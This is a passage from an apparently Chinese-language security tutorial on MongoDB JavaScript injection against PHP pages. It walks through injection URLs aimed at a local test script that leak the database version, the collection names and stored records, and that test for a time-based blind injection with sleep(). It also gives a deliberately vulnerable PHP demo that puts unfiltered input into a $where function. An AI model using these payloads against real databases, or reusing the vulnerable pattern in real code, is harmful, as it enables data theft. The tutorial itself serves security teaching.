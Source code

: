 
攻击方式：

> http://127.0.0.1/1.php?username=test'&password=test

![enter image description here](http://drops.javaweb.org/uploads/images/5de695e1119bad5e270112cd2facca6e23aeb08b.jpg)

报错。 想办法闭合语句。

> http://127.0.0.1/1.php?username=test'});return {username:1,password:2}//&password=test

该语句能返回一个数组，username键值是1，password键值是2.

![enter image description here](http://drops.javaweb.org/uploads/images/7bb14008336d422021028dc99e0298600ef3863a.jpg)

爆mongodb版本

> http://127.0.0.1/1.php?username=test'});return {username:tojson(db.getCollectionNames()),password:2};//&password=test

爆所有集合名

PS:因为db.getCollectionNames()返回的是数组，需要用tojson转换为字符串。并且mongodb函数区分大小写。

![enter image description here](http://drops.javaweb.org/uploads/images/eaf5672793f26837069ed2dcbed90247ad1d5da3.jpg)

爆test集合的第一条数据

> http://127.0.0.1/1.php?username=test'});return {username:tojson(db.test.find()[0]),password:2};//&password=test

![enter image description here](http://drops.javaweb.org/uploads/images/4b89b712dbddf48f3d89b93875005d97870cf2c6.jpg)

爆test集合的第二条数据

![enter image description here](http://drops.javaweb.org/uploads/images/f33c6dc4a8c875202219d58d38250a14f0668104.jpg)

因为execute方法支持多语句执行，所以可以执行太多语句了，不演示~

当然，有时可能遇到没有输出返回数据，这时候怎么办呢？

在高版本下，添加了一个函数sleep()，就是时间盲注咯~

PS:在高版本下，貌似不能用注释语句，此外高版本还有一个新特性就是默认开启错误回显。笔者尝试没有注释成功，只能用闭合的方法。

> http://127.0.0.1/1.php?username=test'});if (db.version() > "0") { sleep(10000); exit; }var b=({a:'1&password=test

![enter image description here](http://drops.javaweb.org/uploads/images/5da4665603dab8f16da9d40a57f6b559193e95f1.jpg)

成功延时了十秒。

另一个demo

在Mongdb中可以使用$where操作符。相当于sql语句中的where限制语句。mongodb中的$where操作符常常引入一个js的函数来作为限制条件，当js函数中的字符串存在未过滤的用户输入时，注入就产生了。

放demo：

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->news; //选择集合
$news = $_GET['news'];
$function = "function() {if(this.news == '$news') return true}";
echo $function;
$result = $coll->find(array('$where'=>$function));
if ($result->count()>0) {
    echo '该新闻存在';
}else{
    echo '该新闻不存在';
}
```
